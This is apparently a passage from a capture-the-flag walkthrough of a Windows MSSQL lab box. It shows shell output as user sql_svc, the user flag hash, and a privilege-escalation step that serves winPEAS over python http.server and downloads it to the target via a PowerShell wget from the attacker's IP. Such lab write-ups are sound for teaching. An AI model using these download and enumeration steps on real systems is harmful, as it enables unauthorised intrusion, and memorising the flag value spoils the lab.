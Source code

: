 ```shell
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Downloads

08/16/2022  11:31 AM    <DIR>          .
08/16/2022  11:31 AM    <DIR>          ..
08/16/2022  11:31 AM            59,392 nc.exe
               1 File(s)         59,392 bytes
               2 Dir(s)  10,710,880,256 bytes free

C:\Users\sql_svc\Downloads>cd ..\Desktop
cd ..\Desktop

C:\Users\sql_svc\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Desktop

01/20/2020  06:42 AM    <DIR>          .
01/20/2020  06:42 AM    <DIR>          ..
02/25/2020  07:37 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  10,710,814,720 bytes free

C:\Users\sql_svc\Desktop>type user.txt
type user.txt
3e7b102e78218e935bf3f4951fec21a3
C:\Users\sql_svc\Desktop>

```

# Privilege Escalation
We are going to use a tool called winPEAS , which can automate a big part of the enumeration process in the target system. You can download from here:
[winPEAS](https://github.com/carlospolop/PEASS-ng/releases/download/refs%2Fpull%2F260%2Fmerge/winPEASx64.exe)

Run again python httpd module on winPEAS directory:
```shell
└─$ ls -lrt
total 1888
-rw-r--r-- 1 darthv darthv 1930752 Jan 16  2022 winPEASx64.exe
                                                                                                            
└─$ python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Get winPEAS on mssql server:
```shell
C:\Users\sql_svc\Downloads>powershell wget http://10.10.14.234/winPEASx64.exe -outfile winPEASx64.exe
powershell wget http://10.10.14.234/winPEASx64.exe -outfile winPEASx64.exe

C:\Users\sql_svc\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 9565-0B4F

 Directory of C:\Users\sql_svc\Downloads

08/16/2022  11:49 AM    <DIR>          .
08/16/2022  11:49 AM    <DIR>          ..
```